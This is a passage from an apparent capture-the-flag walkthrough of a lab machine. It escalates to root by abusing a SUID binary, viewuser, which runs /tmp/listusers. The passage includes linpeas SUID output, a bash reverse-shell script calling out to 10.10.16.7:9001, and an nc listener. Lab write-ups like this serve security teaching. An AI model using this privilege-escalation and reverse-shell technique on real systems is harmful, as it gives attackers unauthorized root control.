 Let’s execute [linpeas.sh](http://linpeas.sh); interesting finds:

```bash
═════════╣ SUID - Check easy privesc, exploits and write perms

-rwsr-xr-x 1 root root 7.2K May 16  2018 /usr/bin/viewuser (Unknown SUID binary!)
-rwsr-xr-x 1 root root 14K Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper (Unknown SUID binary!)         

-rwsr-sr-x 1 daemon daemon 50K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)                                                                                         
```

Let’s check them out.

```bash
/usr/bin/viewuser -h

This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-09-22 14:09 (:0)
djmardov pts/4        2025-09-23 07:25 (10.10.16.7)
sh: 1: /tmp/listusers: not found
```

We see that the script is attempting to execute a listusers shell file but it’s not found. Maybe we can create a shell file with a reverse shell to execute, since this file has SUID set, it will execute as root. First let’s make our exploit:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.7/9001 0>&1
```

Now allow execution on shell script and start a listener:

```bash
chmod +x /tmp/listusers

#on attack box
nc -lnvp 9001
```

Now execute:

```bash
/usr/bin/viewuser
```

![image.png]({{ site.baseurl }}/assets/irked/image%205.png)

We now have root.
